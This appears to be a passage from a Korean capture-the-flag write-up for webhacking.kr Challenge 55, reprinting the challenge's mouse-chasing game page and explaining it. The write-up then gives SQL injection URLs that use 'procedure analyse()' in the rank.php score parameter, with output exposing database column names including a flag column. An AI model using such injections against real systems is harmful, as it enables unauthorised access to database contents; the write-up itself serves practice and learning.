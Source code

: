 소스코드를 살펴보기로 했다.
{: .notice}

```php
<html>
<head>
<title>Challenge 55</title>
</head>
<body onmousemove=move()>
<img src=monster.jpg style="position:relative;left:1;top:1;" id=monster alt='oldzombie'>
<script>
function move(){
  monster.src = Math.floor(Math.random()*2)?"monster.jpg":"monster2.jpg";
  if(parseInt(monster.style.left)<event.x) monster.style.left=parseInt(monster.style.left)+1;
  if(parseInt(monster.style.left)>event.x) monster.style.left=parseInt(monster.style.left)-1;
  if(parseInt(monster.style.left)<event.y) monster.style.top=parseInt(monster.style.top)+1;
  if(parseInt(monster.style.left)<event.y) monster.style.top=parseInt(monster.style.top)-1;
  if(parseInt(monster.style.left)<event.x && parseInt(monster.style.top)<event.y) {monster.style.left=parseInt(monster.style.left)+1;monster.style.top=parseInt(monster.style.top)+1; }
  if(parseInt(monster.style.left)>event.x && parseInt(monster.style.top)>event.y) {monster.style.left=parseInt(monster.style.left)-1;monster.style.top=parseInt(monster.style.top)-1; }
  if(parseInt(monster.style.left)==event.x && parseInt(monster.style.top)==event.y) {alert('GAME OVER'); sfrm.submit(); }
  if(event.x<=0) sfrm.score.value=0;
  if(event.y<=0) sfrm.score.value=0;
  sfrm.mx.value=event.x;
  sfrm.my.value=event.y;
  sfrm.score.value++;
}
</script>
<form method=post name=sfrm>
Score : <input type=text name=score value=0 readonly style=border:0>
<input type=text name=mx readonly style=border:0;font:10>
<input type=text name=my readonly style=border:0;font:10><br>
</form>
<a href=rank.php>rank</a>
```

소스코드를 해석해보자. 이미지의 위치와 마우스의 x, y 좌표를 비교하여 마우스가 더 오른쪽에 있으면 x 좌표를+1 마우스가 더 왼쪽에 있다면 -1
더 위에있다면 y를 +1 아래에 있다면 y를 -1 해주고 있다. 마우스가 대각선 방향에 있을 때도 고려하여 코드를 작성하였다. 그리고 마우스와 이미지의 위치가 같아지면 
게임이 종료되도록 해놨다. 마지막으로 마우스 위치가 표시되고 점수를 표시하는 부분이 작성되어있다.
{: .notice}

처음에는 이곳의 소스 코드를 고쳐서 점수를 1등으로 만들어 푸는 건가 고민하다 다시 score 부분에 insert 쿼리를 보니 flag가 있는 것을 알아냈다.
그래서 procedure analyse()를 사용하여 DB 정보를 알아내기로 했다.
{: .notice}

```
https://webhacking.kr/challenge/web-31/rank.php?score=0%20procedure%20analyse();

-> score=0 limit 0,1 procedure   id : webhacking.chall55.id //
-> score=0 limit 1,1 procedure   id : webhacking.chall55.score //
-> score=0 limit 2,1 procedure   id : webhacking.chall55.p4ssw0rd_1123581321 //
```
